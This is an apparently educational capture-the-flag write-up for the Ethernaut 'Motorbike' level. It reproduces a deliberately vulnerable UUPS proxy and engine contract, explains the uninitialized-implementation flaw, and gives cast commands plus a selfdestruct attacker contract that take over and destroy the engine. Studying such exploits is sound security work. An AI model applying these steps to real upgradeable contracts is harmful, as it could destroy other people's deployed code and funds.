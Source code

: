 ```yaml
---
title: Ethernaut - Motorbike - Solution
date: '2024-06-18'
tags: ['security', 'solidity', 'ctfs']
draft: false
summary: Solution to the Ethernaut - Motorbike CTF
---
```


# Ethernaut - Motorbike - Solution

**IMPORTANT:** `selfdestruct` has been deprecated. 
Starting from the Cancun hard fork, the underlying opcode no longer deletes the code and data associated with an account and only transfers its Ether to the beneficiary, unless executed in the same transaction in which the contract was created (see [EIP-6780](https://eips.ethereum.org/EIPS/eip-6780)).
Since a contract has empty code during construction, it's no longer possible to successfully execute the `delegatecall` that's required to solve this level.
For this reason, we'll only discuss the originally intended pre-Cancun solution in this post.

## Contract

```solidity
// SPDX-License-Identifier: MIT

pragma solidity <0.7.0;

import "openzeppelin-contracts-06/utils/Address.sol";
import "openzeppelin-contracts-06/proxy/Initializable.sol";

contract Motorbike {
    // keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1
    bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;

    struct AddressSlot {
        address value;
    }

    // Initializes the upgradeable proxy with an initial implementation specified by `_logic`.
    constructor(address _logic) public {
        require(Address.isContract(_logic), "ERC1967: new implementation is not a contract");
        _getAddressSlot(_IMPLEMENTATION_SLOT).value = _logic;
        (bool success,) = _logic.delegatecall(abi.encodeWithSignature("initialize()"));
        require(success, "Call failed");
    }

    // Delegates the current call to `implementation`.
    function _delegate(address implementation) internal virtual {
        // solhint-disable-next-line no-inline-assembly
        assembly {
            calldatacopy(0, 0, calldatasize())
            let result := delegatecall(gas(), implementation, 0, calldatasize(), 0, 0)
            returndatacopy(0, 0, returndatasize())
            switch result
            case 0 { revert(0, returndatasize()) }
            default { return(0, returndatasize()) }
        }
    }

    // Fallback function that delegates calls to the address returned by `_implementation()`.
    // Will run if no other function in the contract matches the call data
    fallback() external payable virtual {
        _delegate(_getAddressSlot(_IMPLEMENTATION_SLOT).value);
    }

    // Returns an `AddressSlot` with member `value` located at `slot`.
    function _getAddressSlot(bytes32 slot) internal pure returns (AddressSlot storage r) {
        assembly {
            r_slot := slot
        }
    }
}

contract Engine is Initializable {
    // keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1
    bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;

    address public upgrader;
    uint256 public horsePower;

    struct AddressSlot {
        address value;
    }

    function initialize() external initializer {
        horsePower = 1000;
        upgrader = msg.sender;
    }

    // Upgrade the implementation of the proxy to `newImplementation`
    // subsequently execute the function call
    function upgradeToAndCall(address newImplementation, bytes memory data) external payable {
        _authorizeUpgrade();
        _upgradeToAndCall(newImplementation, data);
    }

    // Restrict to upgrader role
    function _authorizeUpgrade() internal view {
        require(msg.sender == upgrader, "Can't upgrade");
    }

    // Perform implementation upgrade with security checks for UUPS proxies, and additional setup call.
    function _upgradeToAndCall(address newImplementation, bytes memory data) internal {
        // Initial upgrade and setup call
        _setImplementation(newImplementation);
        if (data.length > 0) {
            (bool success,) = newImplementation.delegatecall(data);
            require(success, "Call failed");
        }
    }

    // Stores a new address in the EIP1967 implementation slot.
    function _setImplementation(address newImplementation) private {
        require(Address.isContract(newImplementation), "ERC1967: new implementation is not a contract");

        AddressSlot storage r;
        assembly {
            r_slot := _IMPLEMENTATION_SLOT
        }
        r.value = newImplementation;
    }
}
```

## Solution

The goal of this challenge is to `selfdestruct` the `Engine` contract.

Before we discuss the solution, I would highly recommend reading [EIP-1967](https://eips.ethereum.org/EIPS/eip-1967) and the [Initializable version](https://github.com/OpenZeppelin/openzeppelin-upgrades/blob/master/packages/core/contracts/Initializable.sol) relevant for this level.
In addition, it's a good idea to build a simple UUPS Proxy yourself by following [this tutorial](https://forum.openzeppelin.com/t/uups-proxies-tutorial-solidity-javascript/7786) or any other introductory UUPS Proxy tutorial on YouTube, etc.

The first difference between a UUPS Proxy and the Transparent Proxy Pattern is that the former has the upgrade logic in the implementation contract while the latter has it in the proxy.
The other difference is that UUPS Proxies define a dedicated storage slot that stores the address of the logic contract in order to prevent storage collisions.

In this level, `Motorbike` is the proxy and `Engine` is the implementation contract.
The first thing we notice is that `Engine` does not contain any `selfdestruct` functionality.
Thus, we will have to solve this level by finding a way to upgrade `Engine` so that the new version contains a `selfdestruct` that we can call.

To upgrade the implementation, `Engine` contains an `upgradeToAndCall()` function.
However, this function can only be called by the `upgrader`.
Therefore, we first need to find a way to register our player address as the `upgrader`.

To achieve this, notice that `Motorbike` calls `initialize()` via `delegatecall()`, leaving the storage of `Initializable` unaffected!
In particular, the `initialized` state variable will continue to be `false`, even after `Motorbike` has initialized the `Engine`!
Consequently, we can become the `upgrader` by calling `initialize()` directly from our player EOA.

First, we determine the `Engine`'s address via

```bash
cast storage <your level instance> 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc --rpc-url $SEP_RPC_URL
```

and subsequently call `initialize()` via:

```bash
cast send <your Engine address> "initialize()" --rpc-url $SEP_RPC_URL --private-key <your private key>
```

Now that we are the `upgrader`, we deploy the following attacker contract so that we can subsequently upgrade our `Engine` to it:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract MotorbikeAttacker {
    function destroy() external {
        selfdestruct(payable(address(0)));
    }    
}
```

To complete the attack, we can now call `upgradeToAndCall()` from our player EOA, providing `MotorbikeAttacker`'s address as the first parameter and `destroy()`'s function selector, 0x83197ef0, as the second.
